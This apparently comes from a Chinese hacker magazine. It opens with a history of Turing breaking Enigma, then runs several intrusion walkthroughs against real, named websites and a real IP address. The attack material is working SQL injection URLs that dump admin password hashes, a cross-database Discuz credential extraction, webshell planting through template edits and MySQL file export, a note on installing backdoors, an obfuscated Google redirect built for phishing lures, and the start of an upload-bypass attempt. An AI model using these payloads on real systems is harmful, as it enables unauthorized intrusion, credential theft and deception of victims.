在分析了大量德国电文后，图灵发现许多电报有相当固定的格式，他可以根据电文发出的时间、发信人、收信人这些无关于电文内容的信息来推断出一部分电文的内容。例如，德国人每天的天气预报总在早上六点左右发出，要是在六点零五分截获了一份德国电报，它里面八成有 Wetter 这个词，也就是德文中的“天气”。根据在此之前德国人天气预报电文的死板格式，图灵甚至能相当准确地知道这个词具体在密文的哪个位置。这就使得图灵想到了用“候选单词”这一方法来破译 Enigma 电文，在英语中，图灵把这些“候选单词”叫做 Cribs。

可图灵并不清楚在密文中出现这个候选单词时的转子状态，但是他想的办法很巧妙：如果用 3 台 Enigma 同时加密这个候选单词，会发生些什么事？图灵的绝妙主意就是用 3 台 Enigma 把连接板上连线的效应抵消掉，这样他就只要考虑 1054560 种转子方向就可以了。这样候选单词、字母循环圈和用线路连接起来的多台 Enigma 机，构成了密码分析的强大武器。

图灵对 Enigma 的破译方法完全是纯数学和理论性的，也只有图灵——这个数学虚拟机器的发明人，才能有这样的想象力。

图5 “炸弹”的众多转子

后来图灵得到了来自英国军方的十万英镑拨款，制作了一款专门破解 Enigma 的逆向破解机“炸弹”（Bombes）。每个“炸弹”里都有十二组转子，理论上能够快速地完成对 Enigma 密电的破解。图灵的发明赢得了他在布莱切利庄园的同事的尊敬，大家把他看做是超群的密码分析专家。他的一位同事彼得·希尔顿（Peter Hilton）回忆道：“图灵毫无疑问是个天才，而且是个极近人情的天才。他总是愿意花费时间和精力来解释他的想法，他不是一个钻在狭窄领域里的专家，他的思想遍布科学的许多领域。”

当然，图灵的工作在布莱切利庄园之外是绝对机密，就连他的父母都不知道他在干破译密码的工作，因为他是全英国最厉害的密码分析专家。有一次去看他母亲时，图灵提到过他正在为军事部门工作，但是没有透露其他风声，他母亲在意的是他儿子剃的头很难看。虽然领导布莱切利庄园的是些军人，不过他们也知道，在生活细节上不能对这些知识分子严格要求，在这方面都是睁只眼闭只眼。图灵就经常不刮脸，穿着皱皱巴巴的衣服，指甲又长又黑。但是军队没有过问图灵的同性恋问题，是因为他们不知情。布莱切利庄园的退伍军人杰克·古德（Jack Good）后来说：“幸亏布莱切利庄园的负责人不知道图灵是个同性恋，否则的话，我们就会打败这场战争。”

1940 年 3 月 14 日，第一台“炸弹”运抵布莱切利庄园，可是它运行得太慢，有时要一个星期才找得到一个密钥。工程师们花了很多的努力来改善“炸弹”的设计，然后开始制造新的“炸弹”，这又花了四个月时间。但是在 5 月 10 日，最令英国密码分析专家担心的事情发生了，德国人修补了 Enigma 的漏洞，这使得布莱切利庄园破译的电文量急剧下降。幸运的是，改进以后的“炸弹”在 8 月 8 日到达，而且这次它运行得很好。在接下来的八个月里，十五台新“炸弹”在布莱切利庄园全力开动，而每一台“炸弹”可以在一小时里找到一个 Enigma 的密钥。

图6 “炸弹”

图7 布莱切利庄园的密电截获设备

布莱切利庄园出色的密码破译工作引起了英国领导人的注意，温斯顿·丘吉尔亲自访问了布莱切利庄园，他把这帮具有稀奇古怪才能的密码分析专家称为“从不呱呱叫的下金蛋的鹅”。到 1942 年底，密码局拥有 49 台“炸弹”，密码分析人员的队伍也在不断扩大。事实证明，玩填字游戏的高手往往会成为密码分析的高手，英国情报部门甚至在报纸上登出填字游戏来招聘新的密码分析人员。

在大西洋海战中，德国海军元帅邓尼茨使用“狼群战术”来对付英国的海上运输线，这使英国付出了惨痛的代价。首先，德军众多的潜艇分散在大西洋广阔的海域中，试图寻找合适的目标；如果其中有一艘潜艇发现目标，它就会通知其它潜艇赶来增援；一旦在此海区中潜艇数量足够，它们就向目标发动进攻。很显然，在这种需要高度协作的战术中，保密和快速的通讯起着决定性的作用，而如果英国方面不能及时破译这些通讯内容，所遭受的打击是毁灭性的。

经过图灵和布莱切利庄园密码分析人员的努力，盟军终于能够了解德国“狼群”的位置，从而为运输船队选择一条安全的航线。不仅如此，英国海军的驱逐舰甚至还能主动出击，寻找德军潜艇并将其击沉。但是这里还是存在着如何恰到好处地使用所得到的情报，以免德军总部怀疑他们的最高机密已被破译的问题。正所谓兵不厌诈，通过对 Enigma 的破译，盟军能够知道德国潜艇的位置，但是击沉所有这些潜艇是愚蠢的，因为突然升高的损失不可避免地会使德国人猜测到他们的通讯并不安全。所以盟军经常放掉一些已经到手的肥肉，只攻击那些被侦查机发现的潜艇，当然盟军也会发出一些假的侦查到潜艇的消息来掩盖随之而来的攻击。

图8 现在终于不是秘密，被公开的“炸弹”

在大西洋海战中，德国海军元帅邓尼茨使用“狼群战术”。有一次布莱切利庄园破译了一条电文，其中有九条德国油轮的方位，为了避免德国人起疑心，英国海军总部决定只进攻其中的七条油轮。这七条油轮沉没后，对破译 Enigma 和需要保持秘密一事一无所知的皇家海军舰队“不幸”恰好又碰上了另两条倒霉鬼，于是也将它们送入了海底。在柏林，德国人为此事进行了调查，但是他们的疑心集中在“这是一次偶然的事件”或“由于英国谍报人员的渗透”上，没有人怀疑这是英国人破译 Enigma 所取得的胜利。

图9 操作炸弹的女士

布莱切利庄园所破译的不仅仅是德国的 Enigma 密码，在战争期间他们同样破译了意大利和日本的密码系统，这三方面的情报来源被冠以“Ultra”的代号，意为“绝密”。通过 Ultra 提供的情报，盟军在战场上取得了明显优势。德国在二战后期，又研究开发了一个代号为“Geheimschreiber”的加密机，它由大名鼎鼎的德国西门子公司生产制造，是比 Enigma 更为复杂的加密装置，它拥有 10—12 个字母转子转盘，这使得被它加密的密文很难被破解。Geheimschreiber 是德军最高统帅部和希特勒本人专用的密码，但是图灵最终还是成功攻破了 Geheimschreiber。

历史学家大卫·凯恩（David Kahn）评价布莱切利庄园的作用时说：“这拯救了生命。不仅仅是俄国人和盟军的生命，它也拯救了德国人、意大利人和日本人的生命。对许多在二次大战后幸存下来的人来说，没有这个方案，他们将已不在人世。这就是这个世界欠这些密码破译者的债务，他们的胜利折换成人类生命的价值。”

图10 希特勒使用的 Geheimschreiber

图灵和他的同事在搜寻与打击德军的 U 型潜艇、协助盟军诺曼底登陆等重大军事行动中发挥了关键作用。人们估计，布莱切利庄园的工作使欧洲的战事至少提前两年结束。图灵也因此在 1946 年获得“不列颠帝国勋章”，这是英国皇室给予为国家和人民做出巨大贡献、立下大功的人士的最高荣誉。

战争结束后，布莱切利庄园的秘密却仍不能被公诸于众，原因就在于 Enigma 的加密措施太出色了，英国人想继续利用 Enigma 出色的加密方法。他们将所缴获的数以千计的 Enigma 机分配给自己在世界各地的殖民地，让它们继续发挥余热，因为在那里，Enigma 仍然是坚不可摧的“谜”。

战后布莱切利庄园被关闭，“炸弹”被拆毁，和战时密码分析和破译工作有关的档案资料全部都被封存，严密地看护起来。在几千名原来的工作人员中，有一些成员得以继续为军方新的密码分析机构工作，但是大多数人都被遣散，转回了原来的平民身份，他们宣誓对在布莱切利庄园的经历保守秘密。

从战场上回来的老战士们可以自豪地谈论他们在二战中的战斗经历，但是在布莱切利庄园工作过的人们却不得不隐瞒自己在战争中为国家作出的贡献。一位曾在 6 号小木屋中工作过的年轻密码分析专家甚至收到了一封他早年所在的中学的老师寄来的信，责骂他在战争中逃避战斗的懦夫行为。

更具有讽刺意味的是，当 2000 年好莱坞影片《U-571》上映时，遭到了大量英国舆论的批评。影片描述了美国海军机智勇敢地夺取德国潜艇上 Enigma 机的故事。英国舆论认为，首先从德国潜艇上夺取 Enigma 机的是英国皇家海军，美国人这样做是把他人之功据为己有。而图灵没有能活到看见自己在破译 Enigma 中作出的巨大贡献为人所知的这一天，也没有看到人们为此向他表示的深深敬意。

1945 年第二次世界大战全面结束，图灵随后被英国国家物理实验室聘为高级研究员，于是他又回到了伦敦专心研究计算机理论。计算机的研究在当时属于绝密，他撰写的论文都没有公开发表。而当年图灵写了若干份“内部报告”，明确提出了“自动程序”的概念。这些资料在 1970 年得以解密，后来收入爱丁堡大学的《机器智能》论文集中。

理论上的准备已经充分，而且在战争时期已经具有运用计算机的经验，此时的图灵对计算机的发展前景胸有成竹。他兴致勃勃地拟订了一份“自动计算机（ACE）”的设计方案，完整地描绘出通用数字电子计算机的结构。此时的图灵更注意到存储量与运算速度是计算机的核心，他设计的 ACE 在性能上，大体相当于上个世纪 80 年代美国苹果公司研制的个人电子计算机“麦金塔”。图灵实在太超前了，国家物理实验室认为制造原原本本的 ACE 在工程与技术方面过于困难，知难而退，仅仅制造了一台简化了的 ACE，其运算速度和存储量均大为逊色。

尽管不如图灵所愿，但这台 ACE 毕竟是图灵研制成功的第一台公开对外的电子计算机。况且 ACE 一鸣惊人，被认为是当时世界上最快的电子计算机之一。图灵特别满意它的存储功能，骄傲地向参观者介绍：“它能十分轻松地记忆任何一本小说中的 10 页内容，一字不差！”

1946 年，英国皇家学会成立计算机实验室，设在曼彻斯特大学，一时群英荟萃，成为英国计算机事业的中心，总负责人是图灵在布莱切利庄园的老同事和好朋友纽曼教授。图灵是皇家学会计算机实验室的常务副主任，实际上的负责人。图灵成为实验室的灵魂，他的计算机理论指导着实验室的发展，世界上第一台商业计算机“马克一号”即在这里问世。

接着，他开始思考与探讨人脑与计算机之间的关联与互动。图灵在他的另一篇划时代的论文《机器能思考吗？》中这样描述他的设想：“人的大脑好似一台巨型的电子计算机，初生婴儿的大脑皮层像‘尚未组织好的’机器，可以经过训练，使之成为‘组织好了的’类似于智能机的机器。”早年在剑桥大学获得的数学与哲学方面的深厚功底又一次发挥了力量，图灵是当之无愧的现代“人工智能”之父。也正因为图灵和他的“人工智能”，电子计算机有了另外一个名字：“电脑”。

为了演示人机对话，图灵编写了一套象棋程序，当时却没有一台足够好的计算机去执行这个程序。于是图灵就亲自模拟计算机，严格执行他预先编写的程序走棋。模拟的“计算机”每走一步要用半小时，他就这样与同事下了一盘，结果“计算机”输了。图灵明确提出：“机器能思考”，或者说，具有人脑智力的机器，才是图灵心中真正的万能机。

图灵没有说空话，他进一步给出机器是否具有人脑智力的判别法，后来被称为“图灵测试”。在图灵的时代，全世界仅有的计算机中，当然没有一台能够通过“图灵测试”，那时计算机的水平与今天的不可同日而语。可那限制不了图灵的想象和预见，他相信在 20 世纪末，定会有计算机能够通过“图灵测试”。他的预言得到证实：IBM 研制出的一台会下国际象棋的电子计算机“深蓝”，战胜了当年的国际象棋世界冠军卡斯帕罗夫。

但在图灵生命的后期，他并没有被看做是一个英雄，而是因其性倾向而饱受骚扰和纠缠。1952 年因被小偷入室行窃，他向警察报了案，但是不通世事使他忘了向警察掩盖他和另一位男士同居的事实。1952 年 3 月 31 日，图灵被警方逮捕，被以“有伤风化”罪的罪名起诉，并被判为有罪。在整个过程中，他不得不忍受报纸对他案件的公开报道。

1954 年 6 月 8 日，图灵去世的噩耗像晴天霹雳！不仅英国，乃至全世界都为之震惊。最先发现图灵死亡的是清扫房间的女佣，她在笔录中交代：“今天早就过了图灵通常起床的时间，他却仍然沉睡在床上，神态自若安详，枕边有个只吃了一小口的苹果。书桌上灯亮着，有一封准备寄出的信。”法医在图灵没有吃完的那只苹果里检验出了氰化钾，剧毒化学药品的残留物。警方在多方搜集证据后，对外正式宣布调查结果：图灵是服毒自杀。

图灵自杀的原因一时成为全世界的难解之谜，引得猜测纷纷。他的母亲不相信、不接受警方“图灵服毒自杀”的判断，因为桌子上那封未寄出的信里提到：“同意在几天后接受采访”。她认为图灵是不小心接触到了实验室里的剧毒化学药品，是死于意外事故。警方则认为，那封信是图灵故布疑阵，令母亲相信儿子意外中毒而亡，心里会好受些。困扰人们的问题是：图灵为何么要自杀？在1954年6月7日的那个晚上，当代最伟大的头脑之一，就这样在四十二岁时离开了这个世界。

英国当年的法律主张严厉惩戒同性恋，图灵不得不接受注射激素，否则会有牢狱之灾。激素疗法非但不能改变同性恋倾向，反而呈现出多种副作用，图灵变得意志消沉，越发寡言少语。图灵曾经去看心理医生，医生建议这位科学奇才放松情绪，换换脑筋，不妨读读好的小说。结果图灵真的喜欢上了列夫·托尔斯泰的小说，不过，情绪并未因此而好转。人们普遍认为，图灵情绪的低沉抑郁，最终导致了他的自杀，是那不人道的激素疗法害了他。

图灵的死无疑是计算机科学界的巨大损失，无以弥补。牛津大学著名数学家安德鲁·哈吉斯说道：“图灵似乎是上天派来的一个使者，匆匆而来，匆匆而去，为人间留下了智慧，留下了深邃的思想，后人必须为之思索几十年、上百年甚至永远。”图灵将引领世界计算机的“风骚数百年”，他25岁首创的“图灵机”概念如石破天惊；而立之年探讨的仿真系统和自动程序设计概念如仙人指路；不惑之“晚年”开创的人工智能和“图灵测试”如开山辟路……无一不是超前的科学预见，无一不展现着这位天才的过人智慧。

图14 图灵铜像，他正在破解密码

1998年6月23日，伦敦市政府在图灵的出生地，那所故居的迎面墙上镶嵌一块象征人类智慧与科学的蔚蓝色铜匾，镌刻着计算机科学创始人的名字和出生年月，纪念这位计算机大师诞辰86周年，数万人参加了纪念仪式。那一天，也恰好是图灵在曼彻斯特大学亲手设计成功的电子计算机问世50周年。图灵的这个纪念活动牵动全世界计算机科学家的心，也惊动了英国国会。众议院极其不寻常地赶在前一天晚上10点30分，以多数票通过了一项法案，承认了同性恋者的平等权益。英国政府以他特殊的方式表达了对这位科学巨人的伟大成就的敬意，对令他遭受不公正惩罚而忏悔。

2004年6月7日，为纪念这位计算机科学与密码学的绝顶天才逝世50周年，来自世界各地的学者、学生不约而同到达曼彻斯特市，聚集在图灵离世前5年曾经居住的公寓前。曼彻斯特市政府在这所表面极其普通却因图灵而成为永久的历史性建筑的墙上，隆重镶嵌上一面纪念铜牌，上写：“1912—1954，计算机科学奠基人与密码学家，战争年代破译Enigma的功臣艾兰·图灵居于斯，逝于斯。”

曾经担任过冯·诺依曼研究助手的美国物理学家弗兰克尔教授这样写道：“许多人都推举冯·诺依曼为‘计算机之父’，然而我确信他本人从来不会促成这个错误。或许，他可以被恰当地称为‘计算机的助产士’。依我之见，正是冯·诺依曼使世界认识了由图灵引入的计算机的基本概念。”

弗兰克尔教授此言不虚，在1949年，冯·诺依曼发表了一篇题为《自动计算机的一般逻辑理论》的论文，客观而公正地阐述了图灵在计算机理论上的重大贡献。他写道：“大约12年前，英国逻辑学家图灵就开始研究‘可计算问题’，他准确地给出了‘自动计算机’的一般性定义。”

冯·诺依曼宁愿把“计算机之父”的桂冠转戴在图灵头上。当然，这已经是在图灵离开普林斯顿十来年以后的事了，他当年在普林斯顿并没有像后来那样受人景仰。图灵曲高和寡，当年能看明白他那篇文章的，仅仅是少数杰出的数学家，如冯·诺依曼者。

图灵，是世界上最伟大的黑客。我们由衷地希望，那些自视为什么都懂的“黑客”能够多一些清醒……

# 编辑点评

确实，小编那会儿接触的计算机理论教材，第一章都是讲冯·诺依曼，图灵的功劳几乎不被提及。直到后来，才渐渐有人为其正名。能用现成技术破解密码已经不容易了，图灵不但自己创造了解密技术，还创造了计算机，开创了一门叫计算机的科学。这是什么样的境地啊！

LCX西线手语：

我编辑本期栏目时正好是奥运开幕的第二天，网上有很多对开幕式的议论，大部分人是觉得开幕式办得不错，也有很多人说被张艺谋雷到了。不过呢，我想奥运这样的一个开幕式，无论是怎样的大导演，怎样的大艺术家，也不可能做到让每个人都满意，毕竟众口难调。同样，我想到了《黑客手册》的杂志方向，我们编辑会尽力地让每个人都满意，每个人都能学到更多的知识，包括我们自己。

我负责的西线栏目，从编辑到点评一直坚持中规中矩的风格，不搞笑、不媚俗，希望每期都给读者一点实在的知识。有的知识点虽然不是很新，但是小技巧还是有的。也许有人会不满意，我只能说我努力了。

## 从本文你可以学习到php+mysql5的实战技巧

大家好，这段时间准备买房，刚好今天有空，就看了看当地房产门户网站。出于对网站安全的考虑，习惯性地对网站进行了检测，结果没想到，喝杯茶的时间就成功拿到一个房产门户网站的权限，于是铺纸挥毫，就有了今天的文章。下面请大家跟我一起开始今天某地房产门户网站渗透之旅吧！

# 一、踩点寻找漏洞

我们先来看看这个房产门户网站，其整体用的都是PHP程序，上面有很多栏目，例如行业动态、专题报道、法律法规、商品房、二手房、出租房、企业黄页、装修设计、建材商城、招商招租、房产律师、地图查询、房产论坛等，这些栏目除了论坛域名是以bbs开头以外，其它栏目都是在网站www域名下，但是通过ping可以知道它们都在同一台服务器上。

我们先来看看新闻栏目，全是PHP动态程序，那就测试下是否存在注入漏洞。随便找了个新闻提交and 1=1和and 1=2，返回的页面都一样，说明新闻栏目没有注入漏洞。

再接着测试其它几个栏目，如专题报道、法律法规、商品房等……终于，在商品房栏目显示房子详细信息里发现存在注入漏洞，提交http://xxx/new/spf/kfbg_details.php?id=531 and 1=1/*和http://xxx/new/spf/kfbg_details.php?id=531 and 1=2/*后，返回的信息不一样了。

下面我们开始进行字段猜解，提交http://xxx/new/spf/kfbg_details.php?id=531 order by 10/*时页面返回正常，我们再将字段数增加，提交order by 40/*，页面仍然返回正常。继续增加字段数，提交http://xxx/new/spf/kfbg_details.php?id=531 order by 45/*，页面没有信息返回，说明字段数在40—45之间。最后确认字段数是40，提交http://xxx/new/spf/kfbg_details.php?id=531/**/and/**/1=2/**/union/**/select/**/1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40/*，如图1所示。

字段都在页面中显示出来了，接着来获取数据库版本、信息、连接用户等。提交http://xxx/new/spf/kfbg_details.php?id=281/**/and/**/1=2/**/union/**/select/**/1,version(),user(),database(),6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40/*，如图2所示。

现在我们可以得知数据库版本是mysql5.0.45，连接数据库的用户是njhouse，数据库名称也是njhouse。接下来猜解网站表名，我们猜解出管理员表名为administrator，管理员账户和口令字段分别是username和password，然后提交http://xxx/new/spf/kfbg_details.php?id=281/**/and/**/1=2/**/union/**/select/**/1,password,3,username,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40/**/from/**/administrator/*，如图3所示。

现在已经成功猜解出管理员账户和口令，不过都是MD5加密的，先看看能不能破解吧。马上把猜解出的管理员账户和口令放到网上的MD5解密网站上去跑，我一般都是在http://www.xmd5.org/网站进行破解，但这次一个都没破解出来，可能账户和口令都比较复杂，而且新闻系统的后台还没找到呢！

# 二、深入利用漏洞

现在来整理下思路，我们已经有一个注入点了，可以猜解出新闻系统的表名，网站还有一个论坛，用的是Powered by Discuz! 5.0.0 RC2，应该和新闻系统用的同一数据库。如果连接新闻系统的njhouse用户可以跨数据库查询，就可以查询到论坛的数据库表，那样就可以查出论坛管理员账户和口令了。

前面已经确认数据库是mysql5.0以上，这个版本增加了系统数据库information_schema的结构，它是用来存储数据库系统信息的。如果成功利用此数据库，可以猜出整个mysql5中的所有数据库名和表名。原理我就不多讲了，大家如果不明白，可以去看看《黑客手册》2008年1期杂志里的文章《Mysql5注射技巧总结》，这里我就直接实战操作了。

我们先在本地安装一下PHP环境，然后利用一个猜解mysql5数据库的mysql5.php文件对注入点进行猜解。这个文件是EST中mika写的，文件用法很简单，首先要修改一下注入点和已知其中一个数据库的名称，然后执行mysql5.php -d，就可以猜解出所有的数据库了，如图4所示。

从图4中我们可以看到mysql里所有的数据库已经猜解出来了，经过排查，最后确定bbs2就是网站论坛数据库。修改一下mysql5.php里的数据库名称为bbs2，再提交mysql5.php -t，就可以猜解出bbs2数据库的所有表名了，如图5所示。

其中cdb_members表存有论坛所有用户账户和口令，其中还包括管理员的账户和口令。接着我们继续猜解cdb_members表里的字段，提交mysql5.php -t cdb_members，可以猜解出cdb_members表里所有的字段，如图6所示。

这个工具可以按照条件进行查询猜解，这样可以免去很多麻烦，不用把cdb_members表里的内容都猜出来。第一条记录的uid值是4，提交mysql5.php -t cdb_members -f username -c uid=4，可以猜出cdb_members表里uid=4的用户账户名，也就是第一条记录的账户名，很有可能是管理员的账户名，如图8所示。然后提交mysql5.php -t cdb_members -f password -c uid=4，可以猜出cdb_members表里uid=4的用户口令。

利用猜解出来的roro用户进行登录，发现这个用户只是个普通用户，没有什么权限。论坛有18万会员，不可能一个一个猜解吧？只能想想其它办法了。

既然登录了论坛，就在论坛上看看吧，说不定有什么发现呢？论坛公告应该是论坛管理员发表的，查看公告信息后确定管理员是gumo，通过查看gumo用户属性信息可得知其uid是109270，如图9所示。

知道管理员uid值就好办了，马上提交mysql5.php -t cdb_members -f username -c uid=109270，果然猜出的管理员账户名是gumo，如图10所示。

接着猜解管理员的口令，提交mysql5.php -t cdb_members -f password -c uid=109270，管理员口令也成功猜解并在网站上破解出来，如图11所示。最后，利用猜解出的管理员账户和口令成功登录论坛后台，如图12所示。

下面的步骤就是拿webshell了，Discuz论坛后台拿webshell的方法网上有，我大致简单说下吧。在论坛后台左边的“论坛管理”选项中，“界面风格”里有一项是“模板编辑”。进入“模板编辑”随便选择一个模板进行编辑，就可以修改模板PHP文件了，我们可以直接写入PHP一句话木马到模板编辑文件里，如图13所示。

然后提交文件并查找路径，默认模板文件都在templates\default目录中，我们编辑的这个文件叫modactions.lang.php，直接访问http://xxx/templates/default/modactions.lang.php就可以拿到webshell了，如图14所示。

接着就可以传一个大的webshell上去，大的webshell更方便管理。经过慢慢查找，找到了网站根目录，最后成功拿到了整个网站的权限，如图15所示。

查看了一下这个Linux服务器的内核版本，是2.6的，如图16所示。

由于我手里没有关于这个版本的内核溢出程序，就没有深入测试下去，反正也拿到整个网站的权限了，渗透就到这里吧！

# 三、总结

这篇文章主要是关于mysql5数据库的实战注入，mysql5数据库由于增加了系统数据库information_schema的结构，它是用来存储数据库系统信息的，如果成功利用此数据库，可以猜出整个mysql5中的所有数据库名和表名，相信以后mysql注入也可以和猜解mssql数据库一样简单。即使表名不规则，我们也可以利用mysql5数据库的新特性猜出我们想要的信息。可能用不了多久，针对mysql5数据库注入的应用程序就会出来，文章中的工具和相关资料我已打包提供，有什么不明白的地方可以到《黑客手册》论坛给我留言，我的ID号是rabbitsafe。

> 编辑点评：rabbitsafe的文章没有什么好说的，技术和文笔都很赞，欣赏就是了。

# 提权另类方法补充

### 演示MYSQL

从本文你可以学习到MYSQL空口令提权的方法。

在第8期我已经介绍了如何使用MYSQL高效率的UDF提权方法，相信大家收获不错吧？今天就来补充一下。在一般的UDF提权失败的情况下，使用其它方法来继续完成提权操作。具体演示过程请往下看，首先我们还是要先扫描，如图1所示。

我找了个开3306端口的MYSQL弱口令主机，IP为122.166.13.177，用MYSQL来远程连接，如图2所示。

图2中提示已经通过MYSQL空口令连接到对方主机，我们先按照第8期的方法来提权，如图3所示。图3中显示在我们远程导出文件时，提示权限不够，不能创建和执行函数。很多朋友这时候会放弃而换其它主机，我们为什么要多花些时间，看看是否有其它方法来解决这个问题呢？来，说做就做！我们再扫端口，看是否有其它可以利用的，如图4所示。

这台主机还开启了80端口，我们打开IE看看是什么主页，如图5所示。

呵呵，管理员在WEB根目录没放默认页面，又没设置好服务器限制，所以把WEB目录下的子目录都显示出来了，我们看到了phpMyAdmin管理工具。以前我写过使用phpMyAdmin来提权的方法，这回也来试试吧。用鼠标点一下IE上的phpMyAdmin目录就可以打开管理页面，在页面的右边有一项“显示PHP信息”，如图6所示。这项很关键，我们需要用它来确定WEB的绝对路径。知道了绝对路径，我们才可以进行下一步操作。

点一下“显示PHP信息”，显示出了此台主机的所有相关信息，我们只需要知道WEB的绝对路径信息就足够了，如图7所示。

图7中显示的WEB绝对路径是c:/program files/apache group/apache/htdocs。OK，我们掌握了绝对路径后，马上来进行phpMyAdmin的提权操作。

打开phpMyAdmin管理页面左边的数据库表，选择其中一个，比如mysql或test都可以。选好数据库后，点一下页面上方的SQL选项，这是MYSQL运行语句查询的，如图8所示。

然后，我们在查询栏里输入提权指令，内容是创建一个 nzhack 的表，表里创建一个 niuzu 的字段，在里面写入一句话的 PHP 马，把 PHP 马导出到 WEB 目录下保存，名字为 nzhack.php，如图 9 所示。

输入完毕，我们按一下“执行”，等待后的结果如图 10 所示。晕倒，提示运行错误，还是不成功，这台机器还挺难搞哦。

本来想用简单的方法来偷懒，看来还是要出最后一招了，使用编辑工具进行进制转换，把我常用的一个 PHP 大马转换为二进制代码，转换后的代码为：0x3c3f0d0a2f2a0d0a2d2d2d2d2b2d2d2d2d2d2d2d2d2d2d2d2d2d2d2d2d2d2d2d2d2d2d2d2d2d2d2d2d2d……（略）。然后将转换后的代码复制到一个 TXT 文件里，再把 MYSQL 语句加上。注意：输入对方的 WEB 路径要准确，制作好后的内容如图 11 所示。

准备好后，我们运行 CMD 命令连接对方的数据库，输入指令：\. Nzhack.txt 按回车，如图 12 所示。

运行后，显示已经成功导出文件。我们现在马上打开 IE 输入对方 IP 和马的地址，如 http://122.166.13.177/nzhack.php，如图 13 所示，已经成功得到 WEBSHELL。接着来创建用户试试，如图 14 所示，操作成功。

在创建完用户后，我们还可以利用这个 WEBSHELL 上传如鸽子等类型的远程控制后门上去，进行巩固和其他操作，这里就不一一演示了。

经过我们的努力，终于把一台不能直接 UDF 提权的主机，用迂回的方法，还是得到了权限。此文教给大家的是要多思考，思路要广，不要局限于一种方法，这样成功的机会就会大大提高。

编辑点评：

关于 phpMyAdmin 提权也是老方法了，我不多说什么。linx 写过一个提权或是后门的工具很不错，地址在这里：http://hi.baidu.com/linx2008/blog/item/23729045d695233a879473f0.html。

## GOOGLE也来钓

从本文你可以学到

- 巧妙利用 Google 进行转页

某天我想设计自己的专用壁纸，习惯性地选择 Google 来找一些图片作为素材。不搜不知道，一搜却搜出了一篇文章！打开 http://images.google.cn/，我一如既往地输入想找的图片的关键字，随即就出现了很多关于“狼”的图片。我选中了其中一张图片，单击后来到了另一个画面，如图 1 所示。

看到这个页面就郁闷了（GOOGLE 你自己也跨站！？晕……），上面的 URL 给了我很好的思路！页面 URL 如下：

http://images.google.cn/imgres?imgurl=http://www.kpcn.org/news/webedit/UploadFile/200691515033877.jpg&imgrefurl=http://www.kpcn.org/news/Read.asp%3FNewsID%3D8858&h=337&w=450&sz=29&hl=zh-CN&start=1&tbnid=K478oDS7JenHfM:&tbnh=95&tbnw=127&prev=/images%3Fq%3D%25E7%258B%25BC%26gbv%3D2%26complete%3D1%26hl%3Dzh-CN%26newwindow%3D1

imgurl 这个函数是用来调用显示左上角那个小图片的，如图 2 所示；而 imgrefurl 则是调用显示下面那个跨站窗口，如图 3 所示。

那怎么让它跳转到我们想要的页面呢？其实只要简单地更改函数的值就可以让它调用执行！利用方法如下：

1、更改 imgurl 函数的值。目的：减少 URL 的长短。把 imgurl=http://www.kpcn.org/news/webedit/UploadFile/200691515033877.jpg 改为 美女.jpg（既减少了长度又达到了诱惑性）。

2、更改 imgrefurl 函数的值。目的：让它跳转到我们想要的页面（这里用我们野狼技术联盟论坛 URL 为例）。把 imgrefurl=http://www.kpcn.org/news/Read.asp%3FNewsID%3D8858&h=337&w=450&sz=29&hl=zh-CN&start=1&tbnid=K478oDS7JenHfM:&tbnh=95&tbnw=127&prev=/images%3Fq%3D%25E7%258B%25BC%26gbv%3D2%26complete%3D1%26hl%3Dzh-CN%26newwindow%3D1 改为：

imgrefurl=http://wwtu.5d6d.com

最终 URL：http://images.google.cn/imgres?imgurl=美女.jpg&imgrefurl=http://wwtu.5d6d.com，效果如图 4 所示。是不是大大简短了 URL 的长度？

然而这样还不行，我们还要让它进行伪装，达到更具欺骗性的目的。用工具“牛族字符转换器”把 http://wwtu.5d6d.com 转换成 %68%74%74%70%3A%2F%2F%77%77%74%75%2E%35%64%36%64%2E%63%6F%6D，如图 5 所示。

这样是不是看不出连接地址了啊？经过这样的折腾，现在 URL 变成了 http://images.google.cn/imgres?imgurl=美女.jpg&imgrefurl=%68%74%74%70%3A%2F%2F%77%77%74%75%2E%35%64%36%64%2E%63%6F%6D

利用方法很简单啦！比如通过 QQ 或者邮件发送信息给对方：喂！兄弟！昨天在谷歌看见一个美女的图片，发给你看看，地址是：http://images.google.cn/imgres?imgurl=美女.jpg&imgrefurl=%68%74%74%70%3A%2F%2F%77%77%74%75%2E%35%64%36%64%2E%63%6F%6D。

这样，当对方点击这个地址时，就会跳转到你所指定的连接了。如果大家有更好的利用方法，一定要奉献出来哦！[ASCII.exe 已收录在本期光盘]

> 编辑点评：善于观察是一个黑客必备的技能之一，集合观察而联想到如何应用，从而定出各种方案，这可是经验的积累。

# 对创易网的安全检测

图 胡星儒

本文讲的是用文件头欺骗程序检测。

第一次知道创易网是通过一个搞平面设计的朋友，自己以前也做过 VI 设计，自然想看看这个网站有什么好东西值得学习。打开创易网（www.toidea.com）网站，人家果然在视觉传达效果方面是专家，网站颜色搭配和布局都很协调，简单但也不乏有时尚气息，如图 1 所示。

看着看着，有个链接吸引了我，“http://www.toidea.com/news/detail.php?iInfoID=248”。习惯性地给它加个单引号测试下，竟然报错了（故事就此开始了……）！为了确认一下，又用比较传统的“1=1”和“1=2”进行测试，果然存在注入，如图 2 所示。

太好了，接下来的工作就交给 Pangolin 了，系统还是 FreeBSD，果然很强大哦。继续来列一下表，无果。那来看看系统的一些配置和用户密码，很多账户哦，但不知道 WEB 路径（后来偶然发现了），无法知道 PHP 配置文件，如图 3 所示。

“Magic_quotes_gpc”是 off，无法写一句话……貌似检测就此结束了。重新整理一下思路，再回到网站主页，发现可以注册用户。对啊！这个网站是平面设计方面的交流站，那普通用户提交作品肯定有上传的地方，而且 90% 的可能性是提交图片文件。

我注册个用户试试，想法基本正确，而且网站直接就给我一个上传头像的权限，如图 4 所示，呵呵，好好利用了。先上传一个 PHP 文件试试，失败。那传个 GIF 文件，成功。我再把一句话写入 GIF 文件，然后上传，失败了。失败都提示类型错误，那它判断类型的机制是什么呢？

